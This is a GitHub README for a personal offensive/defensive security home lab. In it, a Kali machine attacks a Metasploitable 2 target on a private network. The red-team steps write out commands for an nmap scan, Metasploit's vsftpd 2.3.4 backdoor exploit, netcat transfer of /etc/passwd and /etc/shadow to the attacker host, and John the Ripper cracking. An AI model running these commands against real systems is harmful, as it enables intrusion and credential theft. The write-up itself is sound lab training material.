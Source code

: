 # Offensive-and-Defensive-Cybersecurity-Project
 Overview
This repository documents my personal **Red vs Blue cybersecurity lab** — a simulated corporate network environment designed to practice **offensive** and **defensive** security skills.  
The goal of this project is to replicate real-world scenarios, execute attack simulations, and develop security controls to detect, mitigate, and respond to threats.

---

 🎯 Objectives
- Simulate realistic cyber attacks (Red Team)
- Harden systems and deploy defenses (Blue Team)
- Develop and test incident response playbooks
- Document findings, improvements, and lessons learned

---

🖥️ Lab Architecture

| Role          | OS / Tools Used | IP Address |
|---------------|-----------------|
| **Attacker**  | Kali Linux (Nmap, Metasploit,  John the Ripper) | 192.168.27.5
| **Victim**    | Metasploitable 2 (vulnerable Linux target) | 192.168.27.4
| **Defender**  | Ubuntu Desktop (UFW firewall, fail2ban, IDS/IPS) |

## ⚔️ Red Team Activities
- **Reconnaissance:** Nmap scanning for open ports & services
- **Exploitation:** Using Metasploit to gain shell access
- **Post-Exploitation:** Dumping `/etc/passwd` and `/etc/shadow` files
- **Password Cracking:** Using `John the Ripper` and `hashcat`
- **Persistence:** Establishing backdoors

---

## 🛡️ Blue Team Activities
- **System Hardening:** Removing unused services, updating packages
- **Firewall Rules:** UFW and iptables configurations
- **Intrusion Detection:** Installing and tuning Snort/Suricata
- **Log Analysis:** Reviewing `/var/log` for suspicious activity
- **Incident Response:** Blocking attacker IPs, restoring services

---

## 🛠 Tools & Technologies
- **Offense:** Nmap, Metasploit, Hydra, John the Ripper
- **Defense:** UFW, fail2ban, Snort, Wireshark
- **Utilities:** netcat, tcpdump, OpenVAS

- ---

--Step 1: VM Startup & Recon 

---


![Spinup](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/Spinupvm.png)


--ip a (check IP)

![verifyIP](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/verify%20ips.png)

--nmap -sS -sV -0 192.168.27.4

![nmap](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/nmapscan.png)

--Step 2:  Exploitation


--msfconsole 

![msfconsole](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/msfconsole.png)


--use exploit/unix/ftp/vsftpd_234_backdoor

--set RHOSTS 192.168.27.4

--run

![runPayload](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/runpayload.png)


--Step 3: File Extraction




--nc -lvnp 9001 > passwd

--nc -lvnp 9002 > shadow

--cat /etc/passwd | nc 192.168.27.5 9001

--cat /etc/shadow | nc 192.168.27.5 9002

![extract](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/extractfiles.png)



--Step 4: Password Cracking


--john shadow --format=md5crypt-long


## 📅 Progress Log
- **08/09/2025** Initial lab setup in VirtualBox
- **08/10/2025** Performed reconnaissance and scanning with Nmap
- **08/10/2025** Gained shell access to Metasploitable via FTP exploit
- **08/10/2025** Extracted password hashes and began cracking
- **08/11/2025** Implemented UFW firewall rules on Ubuntu defender
